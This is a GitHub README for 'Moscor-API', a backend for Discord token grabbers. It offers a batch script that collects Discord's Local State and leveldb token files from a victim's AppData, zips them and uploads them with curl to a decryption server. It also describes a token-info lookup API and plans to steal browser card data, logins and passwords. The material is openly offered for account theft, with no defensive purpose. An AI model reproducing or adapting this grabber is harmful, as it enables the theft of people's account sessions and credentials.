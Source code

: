 # Moscor-API
an api for my project and grabbers, such as token info getting by simple sending info to api
+ has antiskid in decryptor and token info api (layer1) enjoy skidding this and renaming variables functions etc :p 
# Token Info Api
- this gets info about discord token
- Modify ```http://127.0.0.1:5000/token_info``` to your url, based on where youre hosting the file on if its replit change it to replit and read the code, and modify last line
-  Usage:
```curl -H "Authorization: YOUR_DISCORD_TOKEN" http://127.0.0.1:5000/token_info```

# Decrypt token and token info api
- this will decrypt ldb, log and localstate files and look for tokens, usefull for custom grabbers that doenst directly support dpapi support.
- can be done in any language lol.
- how to send files to server and return? 

```bat
:: this will copy the files
@echo off
set "moscorlocalstate=%AppData%\discord\Local State"
set "moscorleveldb=%AppData%\discord\Local Storage\leveldb"
set "moscorlogs=%AppData%\moscorlogs"
set "moscorzip=%AppData%\moscorlogs.zip"

mkdir "%moscorlogs%" 2>nul

copy "%moscorlocalstate%" "%moscorlogs%" >NUL

copy "%moscorleveldb%\*.ldb" "%moscorlogs%" >NUL
copy "%moscorleveldb%\*.log" "%moscorlogs%" >NUL

pushd "%moscorlogs%"
powershell Compress-Archive -Path * -DestinationPath "%moscorzip%" >NUL
popd
::how to send?
curl -F "file=@%AppData%\moscorlogs.zip" http://127.0.0.1:5000/decrypt
```


## Todo: 
- Browser Decryption . CC / Logins / Passwords  (chrome,edge,firefox)
- - It will send files to the server it will decrypt and return them. :]
